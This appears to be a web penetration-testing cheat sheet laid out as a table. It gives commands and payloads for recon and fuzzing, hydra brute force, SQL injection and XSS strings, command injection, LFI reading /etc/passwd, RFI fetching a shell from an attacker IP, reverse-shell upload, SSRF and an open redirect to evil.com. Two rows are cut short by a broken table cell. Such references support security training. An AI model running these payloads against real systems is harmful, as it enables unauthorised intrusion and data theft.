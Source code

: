 | **Category** | **Purpose** | **Tool/Command Examples** | **Notes** |
| --- | --- | --- | --- |
| **Reconnaissance** |  |  |  |
| Identify Technologies | Determine web server, framework, and CMS. | `whatweb <url>`  `wappalyzer <url>` | Identifies technologies, versions, and possible vulnerabilities. |
| Passive Information Gathering | Analyze website content and source code. | Use browser tools like **View Source** or **Burp Suite Repeater**. | Look for comments, API keys, or sensitive info in HTML/JS files. |
| **Subdomain Fuzzing** | Discover subdomains of a target domain using ffuf. | `ffuf -u http://FUZZ.example.com -w /path/to/subdomains.txt -v` | Replace `example.com` with the target domain. |
|  | Fuzz with HTTPS subdomains. | `ffuf -u https://FUZZ.example.com -w /path/to/subdomains.txt -v` | Useful for domains that enforce HTTPS. |
|  | Filter responses by size to find valid subdomains. | `ffuf -u http://FUZZ.example.com -w /path/to/subdomains.txt -fc 404` | Use `-fc <code>` to filter specific response codes like 404. |
|  | Fuzz with IP ranges for internal subdomains. | `ffuf -u http://FUZZ.internal.example.com -w /path/to/subdomains.txt` | Use for testing environments with internal subdomain structures. |
|  | Save results to a file. | `ffuf -u http://FUZZ.example.com -w /path/to/subdomains.txt -o output.json -of json` | Use the JSON format for easy parsing and further automation. |
|  | Recursive subdomain fuzzing. | Use discovered subdomains as input for another round of ffuf scanning. | Manually add discovered subdomains to a new wordlist for deeper fuzzing. |
| **Common Wordlists** | Use default or custom subdomain lists. | `/usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt` | SecLists provides comprehensive subdomain lists. |
|  | Create a custom subdomain wordlist. | `cewl -d 2 -w subdomains.txt http://target.example.com` | Crawl the target website to generate targeted subdomain guesses. |
| **Validation** | Verify subdomains with DNS resolution. | `dig <subdomain>.example.com` or `nslookup <subdomain>.example.com` | Ensure subdomains resolve to valid IP addresses. |
|  |  |  |  |
| Directory Enumeration | Discover hidden directories and files. | `gobuster dir -u <url> -w /path/to/wordlist.txt`  `ffuf -u <url>/FUZZ -w /path/to/wordlist.txt` | Use different wordlists for better coverage (e.g., SecLists). |
| Parameter Discovery | Find hidden GET/POST parameters. | `ffuf -u <url>?FUZZ=test -w /path/to/wordlist.txt -fs <known_response_size>` | Use `-fs` to filter responses by size or other filtering options. |
| **Authentication Attacks** |  |  |  |
| Brute Force Login | Attempt credential brute-forcing. | `hydra -l <username> -P /path/to/passwords.txt <target> http-post-form "/login:username=^USER^&password=^PASS^:F=Login failed"` | Customize form parameters to match the application’s structure. |
| Bypass Login Protections | Attempt bypass techniques (e.g., SQLi or weak logic). | `' OR '1'='1`  `admin'--` | Test login forms with SQL injection payloads or logic bypass techniques. |
| **Input Validation** |  |  |  |
| SQL Injection | Exploit vulnerable SQL queries. | `sqlmap -u <url> --dbs` | Automate injection discovery and exploitation with SQLMap. |
| Cross-Site Scripting (XSS) | Inject JavaScript to execute in the browser. | `<script>alert('XSS')</script>`  `<img src=x onerror=alert('XSS')>` | Test input fields and HTTP headers for reflection or persistent XSS. |
| Command Injection | Execute system commands through vulnerable input. | `http://<target>/vulnerable?cmd=ls`  ` | whoami` |
| **File Inclusion/Uploads** |  |  |  |
| Local File Inclusion (LFI) | Exploit file path vulnerabilities to read local files. | `http://<target>/?file=../../../../etc/passwd` | Use tools like `fimap` to automate discovery. |
| Remote File Inclusion (RFI) | Include remote files for code execution. | `http://<target>/?file=http://<attacker_IP>/shell.php` | Ensure the target server has internet access for RFI. |
| Malicious File Upload | Upload malicious files for execution. | Upload reverse shell (e.g., PHP). | Use tools like Burp Suite to intercept and modify file upload requests. |
| **Session/Authentication Attacks** |  |  |  |
| Session Fixation | Force a victim to use an attacker-controlled session. | Manually set `Set-Cookie` headers with a crafted session ID. | Test with weak session management systems. |
| Session Hijacking | Steal active sessions from users. | Intercept cookies with tools like Burp Suite or `mitmproxy`. | Look for insecure cookies (`HTTPOnly`, `Secure` flags missing). |
| JWT Manipulation | Tamper with JSON Web Tokens. | Decode and modify JWTs with tools like `jwt_tool` or `jwt.io`. | Check for weak signing algorithms like `none` or hardcoded keys. |
| **Exploitation** |  |  |  |
| Command Execution | Execute OS commands via vulnerable parameters. | `curl http://<target>/vuln?cmd=cat /etc/passwd` | Use chained commands (`;`, ` |
| SSRF (Server-Side Request Forgery) | Exploit server-side requests to access internal systems. | `curl http://<target>?url=http://127.0.0.1:22` | Look for vulnerable URL parameters; escalate to RCE or internal network enumeration. |
| Open Redirects | Redirect users to malicious sites. | `http://<target>?url=http://evil.com` | Check for vulnerable `url` or `redirect` parameters. |
| **Post-Exploitation** |  |  |  |
| Cookie/Token Replay | Replay captured cookies or tokens to impersonate users. | Use browser developer tools or tools like `Cookie Editor`. | Test for missing `HttpOnly`, `Secure`, or CSRF protections. |
| Privilege Escalation in Apps | Exploit weak permissions or roles. | Test user functionality manually or with tools like Burp Intruder. | Check for IDOR (Insecure Direct Object References) vulnerabilities. |
| Sensitive Data Exposure | Search for leaked credentials or sensitive information. | Use tools like `strings` or search exposed directories. | Look for `.git`, `.env`, backup files, or sensitive configurations. |
| **Automation Frameworks** |  |  |  |
| OWASP ZAP | Automated scanning for web vulnerabilities. | `zap-baseline.py -t <url>` | Useful for identifying common vulnerabilities quickly. |
| Burp Suite | Manual and automated testing for web vulnerabilities. | Use Burp Intruder and Repeater for payload testing. | Ensure the application proxy is configured correctly. |
| Nikto | Scan web servers for known vulnerabilities. | `nikto -h <url>` | Useful for detecting outdated server software and misconfigurations. |
 
